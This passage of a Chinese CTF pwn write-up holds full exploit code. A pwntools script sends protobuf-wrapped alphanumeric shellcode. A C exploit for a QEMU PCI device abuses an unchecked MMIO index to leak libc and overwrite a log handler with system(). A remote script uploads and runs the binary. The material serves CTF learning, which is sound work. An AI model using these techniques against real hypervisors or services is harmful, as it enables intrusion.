ru('\n')
sl('254')

elf_base = int(r(14),16) - 0x5000 - 8
yes = elf_base + 0x3041
lss('elf_base')
sl(hex(yes))


import pwn2_pb2
data = pwn2_pb2.pwn2()


ru('your giao: ')
#gdb.attach(io,gdbscript)


x   = b'\x06U\x9f\x96\x18\xc4n\xdc\x1a\x10\xe7\xa1me\xed\xa1\xb2\x91\x17\x06\x84\x9fF\x81\xdf\x87\xe4\x8a\x98\x80\xcb\xe9\xcb\xa4\xcfu'
key = b'j6\xaf\xa6{\xa8_\xb9c}\x83\xc7\x0c\x1c\x8d\x91\xd3\xf2nk\xb3\xf9w\xf8\xbf\xe2\x88\xe8\xfc\xec\xfd\x8e\xfd\x92\xfe@'

xor_key = xor(x,b'T'*len(key))


data.giaocontent = b'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2E0T2I0Q030z3P3G1P3r123V2p01187l0B0y3I3d0C3a133q3p03084y3G7n7m1m0m0o0s3r8O02114z4B0Z0B0k0n0403'
data.giaosize = 0x415411
data.giaoid = 0x114514
data.giaotoken = xor(xor_key,key)

data = data.SerializeToString()

s(data)

itr()
```

‍

‍

‍

## ccb-dev

‍

一道简单的 qemu pwn，感觉适合入门学习

‍

### 简单分析

附件 给了一个 docker 打包的镜像



‍

把docker 里的 整个`/home/ctf/` cp 出来，方便调试



‍

‍

直接用ida 打开 `qemu-system-x86_64`, 

白给的漏洞，没有限制 index 的大小,可以设置到 log_handler,泄露libc 然后修改成 system 即可



调试


‍

- 交互部分代码，我直接复制 VNCTF2024 一道题的代码，交互方法大差不差

```c
// #define MAP_SIZE 4096UL
#define MAP_SIZE 0x1000000
#define MAP_MASK (MAP_SIZE - 1)
 
 
char* pci_device_name = "/sys/devices/pci0000:00/0000:00:04.0/resource0";
 
unsigned char* mmio_base;
 
unsigned char* getMMIOBase(){
 
    int fd;
    if((fd = open(pci_device_name, O_RDWR | O_SYNC)) == -1) {
        perror("open pci device");
        exit(-1);
    }
    mmio_base = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd,0);
    if(mmio_base == (void *) -1) {
        perror("mmap");
        exit(-1);
    }
    return mmio_base;
}
 
void mmio_write(uint64_t addr, uint64_t value)
{
    *((uint64_t*)(mmio_base + addr)) = value;
}
 
uint32_t mmio_read(uint64_t addr)
{
    return *((uint32_t*)(mmio_base + addr));
}
```

‍

‍

‍

### exploit

‍

```c
#include "minilib.h"


char* pci_device_name = "/sys/devices/pci0000:00/0000:00:04.0/resource0";

#define O_DSYNC		00010000
#define __O_SYNC	04000000
#define O_SYNC		(__O_SYNC|O_DSYNC)

unsigned char* mmio_base;
 
unsigned char* getMMIOBase(){
 
    int fd;
    fd =  open(pci_device_name, O_RDWR | O_SYNC);
    lss("fd",fd);
    mmio_base = (char *)mmap(0x123000, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd,0);
    lss("mmio_base",(size_t )mmio_base);
}

uint32_t mmio_read(uint64_t addr)
{
    return *((uint32_t *)(mmio_base + addr));
}
uint32_t mmio_write(uint64_t addr, uint64_t value)
{
    return *((uint32_t *)(mmio_base + addr)) = value;
}

void set_idx(size_t idx){
    mmio_write(0, idx);
}

void set_data(int idx){
    mmio_write(4, idx);
}

void run(){
    mmio_write(0xC,0);
}

void set_log_arg(size_t idx){
    mmio_write(0x10, idx);
}

void set_log_fd(size_t idx){
    mmio_write(0x14, idx);
}

size_t read_p64(){
    return mmio_read(4);
}


void doMain(){
    getMMIOBase();
    int idx = 1 + (0x40/4);
    set_idx(idx); //0x048
    ////read_p64();
    size_t x1 = read_p64();
    set_idx(idx + 1); //0x048
    size_t libc_base = (read_p64() << 0x20) + x1 - 0x65140;
    size_t system = libc_base + 0x4f420;
    lss("x1",x1);
    lss("libc_base",libc_base);
    lss("system",system);
    //pause();
    size_t bin_sh = libc_base + 0x1b3d88;

    size_t open_ = libc_base + 0x10fc2f - 0x30; // 踩坑了，一开始 执行 system("/bin/sh") 没有获取shell,不知道啥问题，后面想 orw 又复杂了
												// 绕了一圈 又用 system("cat /flag") 又可以了（不然早出了·）
    size_t read_ = libc_base + 0x110020;


    set_idx(idx + (0xb8/4)); //0x048
    x1 = read_p64();
    set_idx(idx + (0xb8/4) + 1); //0x048
    size_t x2 = (read_p64() << 0x20);
    lss("x1",x1);
    lss("x2",x2);
    size_t heap_addr = x1 + x2 + 0xce0 + 0x38;
    lss("heap_addr",heap_addr);

    //puts("ok");

    set_idx(idx); //0x048
    set_data(system&0xFFFFFFFF);
    set_idx(idx+1); //0x048
    set_data(system >> 0x20);

    set_idx(idx+2); //0x048
    set_data(heap_addr &0xFFFFFFFF);
    set_idx(idx+3); //0x048
    set_data(heap_addr >> 0x20);


    set_idx(idx+0x10); //0x048
    set_data(' tac');
    set_idx(idx+0x11); //0x048
    set_data('alf/');
    set_idx(idx+0x12); //0x048
    set_data('\x00g');
    run();

    // set_idx(idx); //0x048
    // set_data(read_&0xFFFFFFFF);
    // set_idx(idx+1); //0x048
    // set_data(read_ >> 0x20);

    // set_idx(idx+2); //0x048
    // set_data(0xb);
    // set_idx(idx+3); //0x048
    // set_data(0);

    // set_idx(idx+4); //0x048
    // set_data(0x100);
    // set_idx(idx+5); //0x048
    // set_data(0);

    run();


}

extern void _start(){
    size_t env[0];
    environ = (size_t)&env[4];
    doMain();
    syscall64(60,0);
}


```

‍

- 打远程

```python
from pwn import *

s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

context(log_level = 'debug')
#io = remote(*attack.split(':'))
cmd = ''.split(' ')


io = remote('10.10.1.114',26794)

#ru('/ # ')


data = open('./exp/exploit','rb').read()

#data = open('exploit','rb').read()
data = b64e(data)
MAX = 4 * 40
dl = []
for i in range(0,len(data),MAX):
    tmp = data[i:i+MAX]
    dl.append(tmp)
    print(tmp)

for i in dl:
    pay = f'echo -n {i}|base64 -d >>/tmp/exp'
    ru('/ # ')
    sl(pay)

ru('/ # ')
sl('chmod +x /tmp/exp')

ru('/ # ')
sl('/tmp/exp')


itr()

```

‍



‍

## tiny_console

‍


‍

‍

## 附件

‍

```bash
https://pan.baidu.com/s/1z5pnte8h803u9Chxbuwyvg?pwd=1234
```

‍

## 得分题




‍
